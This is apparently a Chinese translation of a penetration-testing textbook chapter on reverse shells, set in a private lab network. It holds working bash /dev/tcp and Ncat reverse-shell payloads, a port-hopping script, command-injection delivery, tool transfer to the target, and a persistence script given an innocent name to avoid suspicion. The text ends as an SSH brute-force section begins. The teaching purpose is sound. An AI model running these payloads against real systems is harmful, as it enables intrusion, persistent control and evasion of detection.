



# 第七章：7 反向外壳


你已经练习过通过建立提供临时单向网络通道的 Web 外壳来获得目标的初步访问。在本章中，我们将探索一种更稳定的初步访问技术：使用*反向外壳*，它改变了网络通信的方向。攻击者使用这些反向连接*从*被攻陷的目标机器*到*他们自己的机器，进而在更同步的方式下获得对被攻陷系统的可靠控制并远程执行命令。

你将学习如何创建反向外壳，并使与远程环境的通信更加稳健。作为附加内容，你还将学习如何通过使用 bash 作为攻击工具强行进入 SSH 服务器。

## 反向外壳如何工作

反向外壳常用于后期利用活动，它使攻击者能够在不直接从自己的机器连接的情况下，保持对被攻陷系统的控制，从而避开防火墙的限制。

*反向*一词指的是初始网络流量的方向。在传统的外壳或命令执行流程中，攻击者的机器通常是连接到被攻陷系统，发出命令并控制它。然而，在反向外壳的情况下，目标系统是主动联系攻击者的。让我们来探索反向外壳的一些原理。

### 入口与出口控制

反向外壳通信帮助我们绕过防火墙规则、网络限制以及其他旨在阻止传入（*入口*）连接的安全措施，包括我们在第六章中讨论的操作系统命令注入和 Web 外壳攻击。

然而，防火墙和网络安全设备通常会配置为允许进行正常互联网活动所需的外发（*出口*）连接。在建立反向外壳时，被攻陷的系统会发起与攻击者机器的出口连接，这通常是默认允许的。防火墙可能将这个出口连接视为合法操作，因此不会触发警报或安全警告。

一旦建立了反向外壳连接，它应该允许攻击者保持对被攻陷系统的控制。成熟的环境可能会阻止向不受信任的网络地址的外发流量，但实施这种限制通常不是一项简单的任务，尤其是在网络中的某些机器需要访问广泛的网络地址范围时。

### 外壳有效载荷和监听器

要设置反向 Shell，你需要两个工具：一个负载和一个监听器。*负载* 在目标机器上运行。你将根据目标系统可用的技术和编程语言以及其运行的平台类型来使用不同的反向 Shell 负载。在本章中，我们将使用 bash 创建一个反向 Shell 负载，但你可以在 *[`github.com/nicholasaleks/reverse-shells`](https://github.com/nicholasaleks/reverse-shells)* 找到不同的反向 Shell 负载列表。

*Shell 监听器* 是一个运行在攻击者机器上的程序，用于接收来自被攻陷目标系统的反向 Shell 连接。当反向 Shell 负载在目标系统上执行时，负载会尝试连接到攻击者的机器。Shell 监听器程序作为这些传入连接的处理程序；它在特定端口上监听，等待连接的建立，并提供一个交互式的 Shell 会话，攻击者可以在其中输入命令并发送到被攻陷的服务器，允许攻击者控制被攻陷的服务器，就像他们直接访问该机器的 Shell 一样。

在渗透测试中最常用的 Shell 监听器之一是 Netcat。我们在第四章中使用了它来执行端口扫描，但这个多功能的命令行工具还可以以多种方式从网络连接中读取和写入数据。我们将在本章中讨论它，并介绍一些替代工具，如 Socket Cat（socat）和 pwncat。

### 通信序列

图 7-1 描述了使用反向 Shell 时网络通信的序列。



图 7-1：反向 Shell 的通信序列

创建反向 Shell 包括以下步骤：

1.  设置 Shell 监听器：攻击者机器初始化一个 Shell 监听器，运行在一个可从互联网访问的特定端口上。

2.  利用目标服务器：攻击者通过漏洞入侵目标系统。

3.  上传反向 Shell 负载：攻击者制作反向 Shell 负载，并通过利用目标系统中的潜在漏洞来传送它。

4.  执行负载：负载在目标服务器上执行。

5.  请求反向连接：负载尝试连接到攻击者的机器，充当客户端。

6.  接受 Shell 连接：监听器接收传入的连接，并通过网络与目标机器建立双向通信通道。

7.  执行命令并获取服务器控制：反向 Shell 连接建立后，攻击者获得对被攻陷目标系统的控制，可以远程执行 Shell 命令。

在下一节中，我们将看到这些步骤的实际操作。

## 执行连接

让我们使用 bash 在 Kali 攻击者机器和目标 *p-web-02* 网站应用服务器（172.16.10.12）之间建立反向 shell 连接。

### 设置 Netcat 监听器

首先，我们必须使用 Netcat 在 Kali 机器上设置一个 shell 监听器。在一个全新的终端窗口中执行以下命令：

```
$ **nc -l -p 1337 -vv**
```

-l 选项指示 Netcat 监听传入连接。-p 1337 选项指定监听的端口号，-vv 选项启用详细模式，为监控和调试提供更详细的输出。

> 注意

*在实际场景中，选择一个与环境融合的端口，使其更难被发现。例如，端口 1337 上的外发连接可能会引发警报，而蓝队分析员可能会忽视如 80 或 443 等常用端口上的流量，这些端口通常用于 HTTP。*

当命令执行时，Netcat 应该开始在指定的端口上监听传入连接。

### 创建有效载荷

接下来，我们将通过使用 列表 7-1 中的单行 bash 来创建一个交互式反向 shell 有效载荷。我们将在下一步将此行作为用户输入提交给目标应用程序。

```
bash -c 'bash -i >& /dev/tcp/172.16.10.1/1337 0>&1'
```

列表 7-1：反向 shell 有效载荷

-i 选项使 bash shell 变得交互式，允许它接收输入并生成输出。*/dev/tcp* 路径是 Linux 中一个特殊的 *伪设备文件*，它提供对 TCP 套接字的访问。类似的文件 * /dev/udp* 也存在，提供对 UDP 的访问。我们在文件路径中添加 Kali 机器的 IP 地址以及 Kali shell 正在等待连接的端口：*/dev/tcp/172.16.10.1/1337*。

>& 语法将标准输出（stdout）和标准错误（stderr）流合并为一个流。通过合并这些流，我们确保反向 shell 有效载荷生成的常规命令输出和任何错误信息都会被重定向到我们的监听器。

你可能已经注意到，我们使用 bash -c 将整个有效载荷包裹在单引号中。这种特殊的包裹方式使我们能够明确调用一个新的 bash shell 实例，同时指定一个命令字符串，通过 -c 选项来执行。它还确保随后执行的命令将使用 bash 来执行，而不管目标系统上设置的默认 shell 是什么。你甚至可以指定 bash shell 的完整可执行路径（使用 /bin/bash -c）来进一步确保有效载荷正确执行。

### 传递和初始化有效载荷

为了传递我们创建的单行反向 shell 有效载荷，我们将利用我们在 第六章 中识别的 *p-web-02*（172.16.10.12）中的操作系统命令注入漏洞。请注意，图 7-2 包括了完整的反向 shell 有效载荷，以及用于利用该漏洞的管道元字符 |。



图 7-2：成功将反向 shell 有效载荷注入 p-web-02

点击 **Donate** 按钮应立即触发反向 shell 连接。在运行 shell 监听器的 Kali 终端窗口中，你应看到以下输出：

```
`--snip--`
listening on [any] 1337 ...
172.16.10.12: inverse host lookup failed: Unknown host
connect to [172.16.10.1] from (UNKNOWN) [172.16.10.12] 54530
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@p-web-02:/var/www/html$ 
```

成功！我们已经再次获得了一个 shell，并攻陷了 *p-web-02* 服务器。在最后一行的提示符中，我们可以看到确认信息，表明我们已经通过使用 *www-data* 用户在 *p-web-02* 主机上获得了一个活动的 shell，并且当前工作目录是 */var/www/html*。

### 执行命令

现在我们可以像使用任何其他 shell 一样使用 Kali shell 监听器终端。让我们通过反向 shell 在 *p-web-02* 上远程执行一个 bash 命令：

```
`--snip--`
bash: no job control in this shell
www-data@p-web-02:/var/www/html$ **uname -a**

Linux p-web-02.acme-impact-alliance.com 6.1.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC
Debian 6.1.12-1kali1 x86_64 GNU/LinuxTypes of Reverse Shells 
```

在本示例中，我们远程执行了 uname -a 命令，并自动将其输出流返回给 Kali 监听器。

我们甚至可以通过输入进程快照命令 ps aux 来进行一些连接的内部查看，查看当前正在运行的反向 shell 进程（列出 7-2）。

```
`--snip--`
www-data@p-web-02:/var/www/html$ **ps aux**

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT  TIME COMMAND
root           1  0.0  0.4 233332 38868 ?        Ss    0:03 apache2 -DFOREGROUND
www-data      19  0.0  0.2 234012 21652 ?        S     0:00 apache2 -DFOREGROUND
www-data      20  0.0  0.2 234012 21384 ?        S     0:00 apache2 -DFOREGROUND
www-data      21  0.0  0.5 234644 47224 ?        S     0:00 apache2 -DFOREGROUND
www-data      22  0.0  0.2 234020 21776 ?        S     0:00 apache2 -DFOREGROUND
www-data      23  0.0  0.2 234020 21528 ?        S     0:00 apache2 -DFOREGROUND
www-data      24  0.0  0.2 234012 21448 ?        S     0:00 apache2 -DFOREGROUND
www-data     131  0.0  0.0   2480   520 ?        S   ❶ 0:00 sh -c echo | bash -c
'bash -i >& /dev/tcp/172.16.10.1/1337 0>&' >> amount_to_donate.txt
www-data     133  0.0  0.0   3896  2948 ?        S   ❷ 0:00 bash -c bash -i >&
/dev/tcp/172.16.10.1/1337 0>&1
www-data     134  0.0  0.0   4160  3516 ?        S   ❸ 0:00 bash -i
www-data     169  0.0  0.0   6756  2944 ?        R     0:00 ps aux 
```

列出 7-2：查看进程信息

在进程输出中，我们可以清楚地看到反向 shell 载荷是如何在远程服务器上执行的，从进程 ID 为 131 的进程开始。（进程 ID 在你的机器上可能不同。）

进一步解析，初始命令 sh ❶ 调用了 bash -c 命令 ❷。该命令允许我们执行所需的 shell 实例，在本例中是 bash，进程 ID 为 134 ❸。通过利用这一系列进程并访问由 */dev/tcp* 提供的网络功能，我们将反向 shell 能力从有限的 sh shell 提升为功能完整的 bash shell。这一升级为我们提供了更广泛的高级反向 shell 技巧，使得复杂的后渗透活动成为可能，并能够维持对被攻陷系统的控制。

### 使用 pwncat 监听

pwncat 是另一个有用的工具，用于捕获和交互反向 shell。它允许我们创建反向 shell 监听器，然后利用其内建模块进行各种操作。

例如，让我们通过反向 shell 发送命令。稍后在本章中，我们也将使用它进行文件上传。启动一个 pwncat 反向 shell 监听器：

```
$ **pwncat-cs -l -p 1337**

[15:54:30] Welcome to pwncat!
bound to 0.0.0.0:1337 
```

输出显示 pwncat 正在积极监听被攻陷机器发来的任何连接。

现在我们可以注入将为我们提供反向 shell 的命令，就像本章之前所做的那样。一旦 pwncat 接收到 shell，你将在终端中看到一条消息，并且能够运行命令：

```
[15:59:49] received connection from 172.16.10.12:54736
[15:59:50] 172.16.10.12:54736: registered new host w/ db manager.py:957

(local) pwncat$ 
```

消息（local）pwncat$ 是 pwncat 的提示符，你可以在此输入命令。输入 help 查看现有选项：

```
(local) pwncat$ **help**

  Command     Description
-------------------------------------------------------------------------------
  alias       Alias an existing command with a new name. Specifying [...]
  back        Return to the remote terminal
  bind        Create key aliases for when in raw mode. This only [...]
  connect     Connect to a remote victim. This command is only valid [...]
  download    Download a file from the remote host to the local host
  escalate    Attempt privilege escalation in the current session. [...]
  exit        Exit the interactive prompt. If sessions are active, [...]
  help        List known commands and print their associated help [...]
  info        View info about a module
`--snip--`
  local       Run a local shell command on your attacking machine
  lpwd        Print the local current working directory
  reset       Reset the remote terminal to the standard pwncat [...]
  run         Run a module. If no module is specified, use the [...]
  search      View info about a module
  sessions    Interact and control active remote sessions. This [...]
  set         Set runtime variable parameters for pwncat
  shortcut
  upload      Upload a file from the local host to the remote host
  use         Set the currently used module in the config handler 
```

提供了许多选项。要运行一些 shell 命令，首先必须使用 back 命令。该命令将返回到被攻陷的主机：

```
(local) pwncat$ **back**
```

现在你可以在目标系统上运行命令：

```
(remote) www-data@p-web-02.acme-infinity-servers.com:/var/www/html$ **id**

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

如你所见，pwncat 能够发送命令并获取结果。

## 绕过安全控制

在进行渗透测试时，你可能会遇到一些环境，在这些环境中，你建立的 shell 很难使用。例如，Shell 本身可能会有限制，或者该环境可能通过减少可用的包来增强系统的安全性。

例如，表 7-1 展示了在 Kali shell 环境与 *p-web-02* 反向 Shell 中运行的命令之间的差异。

表 7-1：Kali 与 p-web-02 中运行的命令比较

| Kali shell | p-web-02 反向 Shell |
| --- | --- |
| $ echo $SHELL | $ echo $SHELL |
| /bin/bash | /usr/sbin/nologin |
| $ whoami | $ whoami |
| Kali | www-data |
| $ ls /bin &#124; wc -l | $ ls /bin &#124; wc -l |
| 3249 | 89 |
| $ wget | $ wget |
| wget: missing URL | Bash: wget: command not found |
| 用法：wget [选项] ... |  |

*p-web-02* 环境缺乏 Kali shell 的许多用户权限，甚至可用的二进制文件数量也有显著不同。这是合理的，因为 Kali 是一个完整的操作系统，带有图形界面，而 *p-web-02* 是一个精简的容器，仅包含最基本的操作所需的软件。

在类似 *p-web-02* 所模拟的云托管 Web 应用服务器中，缺少已安装或内建的二进制文件是正常现象。这是由于性能、安全性和资源优化的需求。精简的系统镜像需要更少的维护工作量，并且提供更快的部署速度。

第三方工具甚至可以定制化去除镜像中的多余包（这一过程称为*最小化*）。例如，*SlimToolkit* 项目在 *[`github.com/slimtoolkit/slim`](https://github.com/slimtoolkit/slim)* 中运行多种分析技术，识别未使用的包，然后通过移除它们来优化操作系统大小。

在本节中，我们将突出一些高阶技术，这些技术用于隐藏反向 Shell 通信或绕过在加固环境中的安全限制。这些技术可以避开初步的访问安全措施，并让我们维持对被攻破系统的控制。

### 加密与封装流量

为了避免被检测到，反向 Shell 可以使用加密和封装技术，将恶意流量隐藏在合法的协议或连接中。通过*加密*通信，我们可以使反向 Shell 流量的内容不可读，从而使安全设备难以识别任何恶意负载或指令。

*封装* 技术将反向 Shell 流量隐藏在无害的协议或已加密的连接中。这项技术将反向 Shell 通信伪装成合法流量。

图 7-3 展示了一个加密隧道如何在被攻破的服务器与攻击者机器之间工作。如你所见，反向 Shell 连接发生在加密连接之内。



图 7-3：通过加密通信通道的反向 Shell

我们可以通过多种方式创建一个加密的反向 Shell 连接。其中一种方式是使用 *Ncat*（与 Netcat 不要混淆），它是一个与 Nmap 一起打包的网络工具，允许流量的重定向、读写和加密。

你可以使用以下命令序列在攻击者机器和目标机器之间建立一个被加密隧道封装的反向 Shell 连接。在攻击者机器上，启动一个 SSL（安全套接字层）监听器，使用 Ncat：

```
$ **ncat -v -l 9443 --ssl**

Ncat:(https://nmap.org/ncat)
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert
to use a permanent one.
Ncat: SHA-1 fingerprint: 174A B251 8100 D6BC EFD7 71C2 FEA6 3D32 0D2D 49B2
Ncat: Listening on :::9443 
```

使用 -v（详细输出）标志，指定端口到 -l（监听）标志，然后使用 --ssl 来加密。除非另行指定，否则 Ncat 默认会生成临时的非对称密钥（Rivest-Shamir-Adleman，或 RSA）。

在被攻陷的机器上，以下命令将建立一个加密的反向 Shell。然而，被攻陷的机器必须已安装 Ncat 才能使此命令生效，而它通常默认并不可用：

```
$ **ncat** **`attacker_IP address`** **9443 --ssl -e /bin/bash -v**

Ncat: (https://nmap.org/ncat)
Ncat: Subject: CN=localhost
Ncat: Issuer: CN=localhost
Ncat: SHA-1 fingerprint: BEED 35DF 5C83 60E7 73CF EBB8 B340 F870 8CC3 DD6E
`--snip--`
Ncat: SHA-1 fingerprint: BEED 35DF 5C83 60E7 73CF EBB8 B340 F870 8CC3 DD6E 
```

在这个例子中，我们运行 Ncat 连接到攻击者的监听器。我们使用 --ssl 来加密流量，然后使用 -e /bin/bash 来执行 bash shell。

pwncat 也可以通过使用与 Ncat 相同的命令风格，建立基于 SSL 的连接。请参考 pwncat 的文档 *[`pwncat.readthedocs.io/en/latest/usage.html`](https://pwncat.readthedocs.io/en/latest/usage.html)* 了解如何使用它来建立基于 SSL 的反向 Shell 连接。

### 在目标端口之间切换

*端口跳跃*，或在通信过程中动态切换网络端口，既用于防御活动也用于进攻活动。在进攻方面，这种技术可以确保反向 Shell 的稳定性，并使安全监控系统更难以阻止恶意流量。通过不断更换端口，攻击者可以绕过简单的基于端口的过滤机制和入侵检测系统，这些系统监控特定端口以检测可疑活动。端口跳跃还使防御者更难以阻止反向 Shell 连接；如果某个网络端口变得不可达，端口跳跃会重新建立连接。

> 注意

*你可以从以下链接下载本章的脚本*：[`github.com/dolevf/Black-Hat-Bash/blob/master/ch07`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch07)。

攻击者通常通过使用预定义的端口范围来实现端口跳跃。列表 7-3 通过使用多个端口执行反向 Shell 连接，具体取决于端口的可用性。

port-hopper.sh

```
#!/bin/bash
TARGET="172.16.10.1"
❶ PORTS=("34455" "34456" "34457" "34458" "34459")

listener_is_reachable() {
  local port="${1}"
❷ if timeout 0.5 bash -c "</dev/tcp/${TARGET}/${port}" 2> /dev/null; then
    return 0
  else
    return 1
  fi
}

connect_reverse_shell() {
  local port="${1}"
  bash -i >& "/dev/tcp/${TARGET}/${port}" 0>&1
}

❸ while true; do
  for port in "${PORTS[@]}"; do
  ❹ if listener_is_reachable "${port}"; then
      echo "Port ${port} is reachable; attempting a connection."
      connect_reverse_shell "${port}"
    else
      echo "Port ${port} is not reachable."
    fi
  done
  echo "Sleeping for 10 seconds before the next attempt..."
  sleep 10
done 
```

列表 7-3：使用多种端口尝试反向 Shell 连接

该脚本在一个数组中设置了几个预定义的端口：34455、34456、34457、34458 和 34459 ❶。在 ❸ 处，一个无限的 while 循环会持续尝试连接监听器。然后，我们通过使用 for 循环遍历端口，并使用 listener_is_reachable() 函数 ❹ 检查每个端口是否可达，该函数使用特殊的 */dev/tcp* 设备。请注意，我们在检查可达性时 ❷ 会先使用 timeout 命令，确保命令在设定的 0.5 秒间隔内退出。如果端口可达，我们调用 connect_reverse_shell() 函数，传入打开的端口作为参数，并使用 */dev/tcp* 向其发送交互式 shell。

由于我们正在连续进行多个网络连接（一个用于连接检查，另一个用于建立反向 shell），某些版本的 Netcat 可能不支持保持监听器的存活。为了克服这一点，我们可以使用 socat 在 Kali 主机上设置 TCP 监听器。该工具将确保监听器保持活跃：

```
$ **socat - tcp-listen:34459,fork**
```

如果你在其中一台受控主机上运行该脚本，如 *p-web-01*（172.16.10.10），它应该会产生以下输出：

```
$ **./port-hopper.sh**

`--snip--`
Port 34457 is not reachable.
Port 34458 is not reachable.
Port 34459 is reachable, attempting a connection... 
```

在下一部分，我们将讨论几种方法，帮助我们在没有超级用户权限的情况下，将新的二进制文件传输到目标环境，而不需要从公共仓库下载官方软件包。

## 使用伪终端设备生成 TTY Shell

这里有一个你可能在未来的 shell 破解冒险中遇到的场景：你访问的受限 shell 可能不提供完整的 TTY（终端）支持。非 TTY shell 具有有限的命令行编辑、没有作业控制、输出格式不完整和缺失信号处理，并且它们可能无法在交互式应用程序中工作，如文本编辑器。

升级 shell 为功能丰富的 TTY shell 的一种常见方法是使用伪终端。*伪终端* 提供了一个接口，允许进程与类似终端的设备进行交互，从而使终端应用程序、shell 和其他程序能够像连接到物理终端一样工作。

### Python 的 pty 模块

Python 的 pty 模块模拟物理终端设备的功能。在以下示例中，我们通过使用 pty.spawn() 函数，将 Python shell 升级为完全交互的 TTY bash shell。尝试在 Kali 主机上运行它，看看它的效果：

```
$ **python**

Python 3.xx (main, Feb 12, 00:48:52) on linux
Type "help", "copyright", "credits" or "license" for more information.

>>> **import pty**
>>> **pty.spawn("/bin/bash")**

$ 
```

要退出 Python 控制台，输入 exit()。

在安装了 Python 的受控主机上，你可以通过执行以下命令来提升你的 shell 权限：

```
$ **python3 -c 'import pty; pty.spawn("/bin/bash")'**
```

请记住，Python 必须在受控主机上可用，才能使用此技术。

### socat

如果目标主机和你的本地攻击系统上都存在 socat 工具，你可以使用它来生成 TTY shell。我们通常使用 socat 在两个数据通道之间进行双向通信。

在 Kali 上，运行 socat 命令以生成 TTY shell：

```
$ **socat file:$(tty),raw,echo=0 tcp-listen:1337**
```

file: 参数使用 $(tty) 命令的值，扩展为 /dev/pts/#。原始模式（raw）确保 socat 不会处理输入和输出数据，echo=0 禁用 socat 的本地回显，tcp-listen:1337 定义本地 TCP 监听端口。

接下来，通过在*p-web-02*（172.16.10.12）上利用操作系统命令注入漏洞，执行以下命令。请注意使用管道符触发注入漏洞：

```
| **socat exec:'bash -li',pty,stderr tcp:172.16.10.1:1337**
```

在此示例中，我们使用 exec 参数“bash -li”调用 socat，这将以交互方式执行 bash，就像它被作为登录 shell 调用一样。我们还传递了 pty,stderr 来生成伪终端并捕获标准错误流，后跟 tcp:172.16.10.1:1337 来设置使用 TCP 的连接地址。

## 后期利用二进制文件部署

让我们讨论几种不需要 root 权限即可从受限 shell 环境升级的方法。在本节中，我们假设未能仅使用 bash 通过 */dev/tcp* 特殊伪设备文件建立反向 shell 连接到*p-web-02*。

即使 *www-data* 用户缺乏权限并且无法在服务器上安装软件，我们也可以仅使用 bash 执行许多攻击。然而，缺少某些核心二进制文件，尤其是那些用于网络的二进制文件，会使我们的黑客工作变得特别困难。

正如我们在表 7-1 中提到的，*p-web-02* 没有 wget 二进制文件来从远程服务器下载文件。让我们尝试执行一些其他常见的网络工具命令，看看它们是否存在：

```
www-data@p-web-02:/var/www/html$ **ssh**
bash: ssh: command not found
www-data@p-web-02:/var/www/html$ **nc**
bash: ssh: command not found
www-data@p-web-02:/var/www/html$ **socat**
bash: socat: command not found
www-data@p-web-02:/var/www/html$ **python --version**
bash: python: command not found
www-data@p-web-02:/var/www/html$ **curl**
curl: try 'curl --help' or 'curl --manual' for more information 
```

哇，这台主机确实无法建立出站连接。我们有 curl，但是无法使用 curl 直接建立反向 shell 连接。

在这种情况下，下载一个 Netcat 二进制文件到目标服务器会非常有用。通过利用如代码执行等应用程序漏洞，我们可以潜在地安装这样的网络工具，并使用它建立升级版的反向 shell 连接。

本节中，我们涵盖了可以用来将网络二进制文件拉入目标环境并执行它们的有用命令。请注意，我们将使用与*p-web-02*的反向 shell 连接在这里稍微作弊一下，但以下技术完全可以利用我们发现的操作系统命令注入漏洞来执行。我们将在几个示例中展示它的使用。

### 提供 Netcat 服务

在 Kali 机器中，导航到您要传输的有效载荷的目录，然后输入以下 Python 命令来启动 HTTP 服务器：

```
$ **cd Black-Hat-Bash/ch07**
$ **python -m http.server** 
```

在*p-web-02*（172.16.10.12）上，您现在应该能够通过 Python HTTP 服务器访问 Kali 机器的文件系统，并使用 curl 执行下载命令。将 Kali nc 二进制文件的副本放入与 HTTP 服务器相同的目录中：

```
$ **which nc**
/usr/bin/nc

$ **cp /usr/bin/nc ~/Black-Hat-Bash/ch07** 
```

您现在可以通过远程 curl 命令将其下载到*p-web-02*，并将其设置为可执行文件：

```
$ **cd /var/www/html**
$ **curl -O http://172.16.10.1:8000/nc**

% Total    % Received % Xferd  Average  Speed    Time    Time    Time  Current
                                 Dload  Upload   Total   Spent   Left  Speed
100 34952  100 34952    0     0  33.3M      0 --:--:-- --:--:--  --:-- 33.3M 
```

在 Kali 虚拟机中，我们现在可以在新终端上通过不同的端口建立第二个反向 shell 连接。我们选择 1234 端口（因为第一个反向 shell 使用的是端口 1337）：

```
$ **nc -lvp 1234**
```

接下来，我们可以在第一个反向 shell 中执行新的 nc 二进制文件，通过 nc 建立第二个反向 shell。我们还可以通过使用 & 将此过程发送到后台：

```
# **chmod u+x nc**
# **./nc 172.16.10.1 1234 -e /bin/bash &**

[1] 140 
```

另外，我们可以简单地在新的 Kali 终端中通过 curl 调用 *p-web-02* 上的 Netcat 二进制文件，利用操作系统命令注入漏洞：

```
$ **curl http://172.16.10.12/donate.php?amount=%7C+.%2Fnc+172.16.10.1+1234+-e+%2Fbin%2Fbash**
```

这种方法绕过了第一个反向 shell 的需求。

### 使用 pwncat 上传文件

当我们使用 pwncat 建立一个 shell 时，可以利用其上传命令在攻击者和受感染目标机器之间传输文件。上传命令接受两个参数，源文件和目标位置：

```
(local) pwncat$ **upload /etc/passwd /tmp/remote_passwd.txt**
[16:16:46] uploaded in 0.32 seconds 
```

重要的是要记住，除非 pwncat 使用 SSL，否则攻击者机器与目标机器之间的流量将是明文传输。（Netcat 和 Ncat 也是如此。）

### 从可信网站下载二进制文件

通常，环境不会阻止与常用网站（如 GitHub、GitLab、Google Drive 和 Microsoft OneDrive）以及云服务（如亚马逊简单存储服务 S3 和 Google 云存储 GCS）的外发流量。因此，这些是托管恶意文件的好地方。

安全性成熟度较低的组织通常会对其整个网络（包括用户和服务器）使用相同的出站过滤策略，并且往往没有很好的方法来阻止网站的某一部分，同时允许其他部分通过。此外，如果公司使用亚马逊 Web 服务（AWS）或任何其他云服务商来托管其基础设施，很可能会允许与云服务提供商之间的所有流量。

作为渗透测试员，你应该探索目标使用的任何第三方服务，并寻找方法通过它们托管你的恶意文件。例如，如果你的目标有一个公共的营销网站，并且提供与代理对话的聊天机器人功能，可能有办法通过聊天匿名附加文件。如果是这种情况，你可以复制并粘贴该链接，用它将恶意文件传输到后续受感染的主机。

通过可信网站托管的一个好处是，如果网站通过安全超文本传输协议（HTTPS）提供，受感染的机器与可信网站之间的通信将自动加密。

练习 10：保持持续的反向 Shell 连接

你可能想通过执行一个脚本来加强你在目标上的初始立足点，该脚本会不断重新建立反向 shell 连接。如果反向 shell 进程被中断或断开，你的脚本可以通过提供的 IP 地址和端口重新连接到 Kali 虚拟机。

清单 7-4 将在被攻陷的服务器上作为后台进程本地运行，并尝试以我们设置的特定间隔重新建立反向 shell 连接。

reverse_shell _monitor.sh

```
#!/bin/bash
TARGET_HOST="172.16.10.1"
TARGET_PORT="1337"

# Function to restart the reverse shell process
restart_reverse_shell() {
  echo "Restarting reverse shell..."
  bash -i >& "/dev/tcp/${TARGET_HOST}/${TARGET_PORT}" 0>&1 &
}

# Continuously monitor the state of the reverse shell.
while true; do
  restart_reverse_shell
  # Sleep for a desired interval before checking again.
  sleep 10
done 
```

清单 7-4：监控并重新建立反向 shell 连接

脚本本身很简单：我们每 10 秒调用一次 restart_reverse_shell() 函数。无论网络或反向 shell 进程的状态如何，该函数都会尝试与我们的 Kali 主机重新建立连接。如果当前已经有一个反向 shell 连接，Kali 主机会拒绝任何其他连接。

将脚本命名为一些普通的名称，比如 *donation-monitor.sh*，以避免引起怀疑，因为该脚本应在后台无限期运行。接下来，将脚本保存到 *p-web-02*（172.16.10.12）上的文件中，并设置适当的执行权限，然后将脚本作为后台任务运行，重定向其输出：

```
$ **cp reverse_shell_monitor.sh donation-monitor.sh**
$ **chmod +x ./donation-monitor.sh**
$ **nohup** **./donation-monitor.sh > /dev/null 2>&1 &**
$ **rm nohup.out** 
```

要测试脚本，您只需要运行 Netcat 监听命令以提供反向 shell。尝试多次停止和启动监听器，您会注意到每 10 秒反向 shell 会重新建立连接。

## 使用暴力破解进行初始访问

进入远程系统的一种更传统方式是使用与 IT 管理员相同的服务。通过利用被盗的凭证或利用如配置错误或密码不强等弱点，我们可以通过暴力破解的方式打开系统的大门。

一个常见的目标服务是 SSH。虽然一般认为 SSH 是一种安全协议，但其实现可能存在安全弱点，攻击者可以利用这些弱点进行攻击，例如密码弱或重复使用、身份验证方法不安全以及密钥管理问题。

我们可以使用 bash 脚本执行跨多个服务协议的复杂暴力攻击，包括 SSH。虽然我们可以单独运行暴力破解工具，但将它们结合到一个 bash 脚本中可以带来许多好处。我们的脚本可以自动化主机检测、生成字典文件，并与工具集成来填充凭证。

让我们尝试破解一个新目标，*p-jumbox-01* 服务器（172.16.10.13）。要执行 SSH 连接，请在 Kali 主机中打开一个新终端并输入以下命令：

```
$ **ssh user@172.16.10.13**
The authenticity of host '172.16.10.13 (172.16.10.13)' can't be established.
